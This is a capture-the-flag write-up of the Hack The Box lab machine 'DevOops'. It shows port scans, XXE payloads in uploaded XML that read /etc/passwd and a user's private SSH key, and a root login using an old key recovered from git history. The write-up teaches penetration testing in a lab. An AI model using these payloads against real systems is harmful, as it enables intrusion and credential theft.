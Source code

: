 # HTB - DevOops

#### Ip: 10.10.10.91
#### Name: DevOops
#### Rating: Medium

----------------------------------------------------------------------

DevOops.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.91  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-08 10:19 CDT
Nmap scan report for 10.10.10.91
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
```

Lets dive a bit deeper and scan these open ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ sudo nmap -sC -sV -T4 10.10.10.91 -p 22,5000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-08 10:19 CDT
Nmap scan report for 10.10.10.91
Host is up (0.067s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4290e335318d8b86172afb3890dac495 (RSA)
|   256 b7b6dcc44c879b752a008983edb28031 (ECDSA)
|_  256 d52f1953b28e3a4bb3dd3c1fc0370d00 (ED25519)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.18 seconds
```

Heading to the site on port 5000 we see a page that is under construction:

site.png

Doing some directory fuzzing we find an `/upload` directory.

upload.png

Interesting..We've got a file upload area, and there are even some notes about which XML elements are in play. 

Lest test for XXE

### Exploitation

I'll create an .xml file called test.xml with the elements mentioned on the site:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<hey>
    <Author>bob</Author>
    <Subject>bob</Subject>
    <Content>&xxe;</Content>
</hey>
```

And upload this file:

passwd.png

Nice! That worked! We also see that there is a user named roosa on the box. Lets see if they happen to have an id_rsa file in their home directory. We can create a new .xml file with the following:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa"> ]>
<hey>
    <Author>bob</Author>
    <Subject>bob</Subject>
    <Content>&xxe;</Content>
</hey>
```

After uploading this we succesfully dropped roosa's SSH key:

id.png

Lets add that to a file called id_rsa, and then update permissions on it:

```text
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ chmod 600 id_rsa
```

We can then use the key to SSH in as user roosa:

```text
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ ssh -i id_rsa roosa@10.10.10.91 

<SNIP>

roosa@devoops:~$ whoami
roosa
roosa@devoops:~$ id
uid=1002(roosa) gid=1002(roosa) groups=1002(roosa),4(adm),27(sudo)
roosa@devoops:~$ hostname
devoops
```

We can now grab the user.txt flag:

user_flag.png

### Privilege Escalation

Finding a `.git` folder I realize roosa and team are utilizing git. Lets see if we can find any commits:

git.png

Cool, we can see several different commits. 

Scrolling through them, this one seems especially interesting to me:

com.png

Lets check it out:

show.png

Nice, we can see that the key in red was replaced by the key in green. 

change.png

Lets see who else on the box has bash enabled, and who the key may belong to:

bash.png

Just a few choices here. 

Lets copy the key back to our attacking machine and try to SSH in as root:

```text
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ chmod 600 new_key       
                                                                                                                     
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ ssh -i new_key root@10.10.10.91 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Fri Sep 23 09:46:30 2022
root@devoops:~# whoami
root
root@devoops:~# hostname
devoops
```

Nice! That key worked for root!

Lets grab our root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------------------